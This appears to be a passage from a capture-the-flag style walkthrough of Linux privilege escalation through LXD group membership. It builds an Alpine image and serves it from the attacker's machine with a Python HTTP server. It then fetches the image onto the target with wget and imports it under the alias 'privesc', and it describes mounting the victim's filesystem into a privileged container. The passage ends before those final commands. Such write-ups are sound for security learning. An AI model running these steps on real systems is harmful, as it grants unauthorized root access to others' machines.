 For first, clone the Alpine Linux Container project in our machine by:
```
git clone https://github.com/saghul/lxd-alpine-builder ~/alpine
cd ~/alpine
sudo ./build-alpine
```
At this point you should get a .tar.gz archive (it could be that you get an older file .tar.gz already after the `git clone` but here we work with the newest file version gotten by running `build-alpine` script).

The archive contains all the needed file for setting up the container in the target machine. For this reason, the next step now is to send this archive to the target machine.

For doing this, an idea could be setting a HTTP server on our machine and by `wget` command on the target machine we can download the file directly on the target machine (I think we can also use TFTP by I didn't test it).
Let's run these commands:
```
$ python3 -m http.server 4000
```
The root folder of our HTTP server will be the folder where we started this command above. At this point, on target machine side, we can download the archive by typing the following command:
```
$ wget http://10.10.14.251:4000/alpine-v3.15-x86_64-20211221_1207.tar.gz
```
Then you can import the archive/image by the following command:
```
$ lxc image import ./alpine-v3.15-x86_64-20211221_1207.tar.gz --alias privesc
```
In this way, we imported the image of Alpine Linux image to the image store. For a further check, we can list all imported images as:
```
$ lxc image list

+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+                                                                                                                         
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |                                                                                                                         
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+                                                                                                                         
| privesc | 141bb3017606 | no     | alpine v3.15 (20211221_12:07) | x86_64 | 3.66MB | Dec 21, 2021 at 7:12pm (UTC) |                                                                                                                         
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+  
```
Now we can create a container from the image above, by setting some configuration value to be applied in the new container. The setting value is `security.privileged=true`. After this initialization, it is necessary to mount the victim file system to the container, then start the container and interact with the container by the shell.
